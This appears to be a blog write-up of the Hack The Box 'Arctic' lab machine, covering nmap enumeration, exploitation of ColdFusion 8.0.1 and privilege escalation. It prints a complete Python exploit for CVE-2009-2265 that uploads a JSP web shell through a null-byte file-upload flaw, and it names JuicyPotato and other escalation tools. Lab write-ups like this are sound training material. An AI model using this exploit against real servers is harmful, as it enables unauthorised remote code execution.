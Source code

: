 Title: HTB Arctic box writeup
Tags: oscp, htb
Summary: Per ColdFusion aspera ad another empty outdated box
Date: 2020-10-13 21:50
Status: published

# Enumeration
Looks like we've got some ColdFusion there:
<pre>
    Nmap 7.80 scan initiated Thu Oct  8 22:46:43 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.11
    Nmap scan report for arctic.htb (10.10.10.11)
    Host is up (0.062s latency).
    Not shown: 65532 filtered ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    8500/tcp  open  fmtp
    49154/tcp open  unknown
    Nmap done at Thu Oct  8 22:49:58 2020 -- 1 IP address (1 host up) scanned in 194.82 seconds
</pre>

Scripted scan:
<pre>
    Nmap 7.80 scan initiated Thu Oct  8 22:51:06 2020 as: nmap -sC -A -T4 -p135,8500,49154 -oA enum/nmap-scAT4-open 10.10.10.11
    Nmap scan report for arctic.htb (10.10.10.11)
    Host is up (0.056s latency).
    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: phone|general purpose|specialized
    Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
    OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
    Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    TRACEROUTE (using port 135/tcp)
    HOP RTT      ADDRESS
    1   56.97 ms 10.10.14.1
    2   59.28 ms arctic.htb (10.10.10.11)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Thu Oct  8 22:53:40 2020 -- 1 IP address (1 host up) scanned in 154.11 seconds
</pre>
Extensions and the error tend to prove hypothesis about ColdFusion instance:

![ColdFusion err](/cstatic/htb-arctic/appcfm-error.png)

# Exploitation
Coldfusion seems to be a bit laggy and this is annoying since it slows down the
whole process. It turned out that this deployment is vulnerable to ancient
CVE-2009-2265 and I managed to find some custom written python script to exploit
that instead of using metasploit. It was found somewhere on the HTB forums and
I just tuned it up a bit so that it use the name of the local file for uploaded one.
Here's the script:
```python
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/ColdFusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/ColdFusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys, os

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        filename = os.path.basename(sys.argv[4])
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        filename = os.path.basename(sys.argv[3])
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/ColdFusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'
print 'Base filename is {}'.format(filename)

try:
    req = requests.post(
        basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{}%00".format(filename),
        files={ 'newfile': ('sploit.txt', body, 'application/x-java-archive' )})
    print 'Base path is {}'.format(basepath)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at {}/userfiles/file/{}'.format(basepath, filename)
    else:
        print 'Failed to upload payload... {} {}'.format(str(req.status_code), req.reason)
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

The main caveat is that the uploaded JSP had to be less that 65535 bytes long,
otherwise it won't compile on the server and we will get a translation error
back while trying to run such a servlet.

So I uploaded 
[this shell](https://github.com/SecurityRiskAdvisors/cmd.jsp/blob/master/cmd.jsp),
hosted accompanying UI script on my machine and got web shell running:

![web shell](/cstatic/htb-arctic/webshell.png)

Obviously it's trivial to acquire an interactive shell from this, turned out
that ColdFusion has been running as some local user:

![user shell](/cstatic/htb-arctic/user-shell.png)

# Privilege escalation
So I decided to "try harder" with PE here, since I just watched tib3rius' course
about this on udemy. In general it seems that HTB boxes aren't much about PE
because they're pretty empty so PE relies on known exploits usually. This looks
exactly like such a case. The journey started with `winPEAS.bat` and some manual
enumeration and this resulted in nothing - the box is pretty empty. Next step
was to try some exploits suggested by `wes.py` and none of them worked well. One
was looking good, but failed to escalate privileges. I then remembered MS16-032
and tried it, but still vainly - for reason unknown it didn't work either, I
just wasn't able to catch a shell despite the fact that exploit reported success.
The only thing that worked was the JuicyPotato - flawlessly spawned SYSTEM shell:

![root shell](/cstatic/htb-arctic/root-shell.png)
